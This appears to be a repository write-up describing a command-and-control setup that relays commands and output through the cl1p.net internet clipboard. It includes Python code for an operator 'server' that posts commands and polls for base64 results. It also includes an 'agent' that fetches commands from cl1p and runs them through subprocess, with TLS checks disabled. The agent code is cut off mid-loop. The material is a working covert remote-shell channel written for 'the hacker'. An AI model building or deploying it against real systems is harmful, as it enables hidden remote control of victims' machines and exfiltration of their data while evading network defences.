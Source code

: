 
## cl1p.net
> "CL1P.NET is the internet clipboard. The easiest way to send data between internet connected devices. Just pick any URL that start with cl1p.net and put in data. Then on any other device enter in the same URL." - CL1P

In [cl1p](https://cl1p.net/) a scenario that comes to mind is to have two separate addresses, one for the hacker to store the command to be exeucted by the agent and another for the agent to store the output of the command into it.


### Server
```python
import requests
from bs4 import BeautifulSoup
import base64
import time
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
RESPONSE_ID = "REDACTED_ID"
COMMAND_ID = "REDACTED_ID"

while True:
    cmd = input(": ")
    data = {
    'ttl': '0',
    'content': cmd,
    }
    response = requests.post('https://cl1p.net/'+COMMAND_ID, data=data, verify=False)
    while True:
        response = requests.get('https://cl1p.net/'+RESPONSE_ID, verify=False)
        soup = BeautifulSoup(response.text, 'html.parser')
        textarea = soup.find('textarea', {'id': 'cl1pTextArea'})

        if textarea:
            content = textarea.get_text().strip()
            content = base64.b64decode(content)
            print(content.decode())
            break
        else:
            time.sleep(1)
```
This code runs on the server side, where it continuously waits for input. Once input is received, it sends a request to a specific cl1p address to write the input there which is put in `content`. `ttl` is set to `0` for the cl1p website to automatically delete the content once viewed. Afterward, the server keeps monitoring a different cl1p address to check for the output of the command.

### Agent
```Python
import requests
from bs4 import BeautifulSoup
import subprocess
import base64
import time
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
RESPONSE_ID = "REDACTED_ID"
COMMAND_ID = "REDACTED_ID"
def execute_system_command(cmd):
    output = subprocess.getstatusoutput(cmd)
    return output
while True:
    response = requests.get('https://cl1p.net/'+COMMAND_ID, verify=False)
    if response.status_code == 200:
```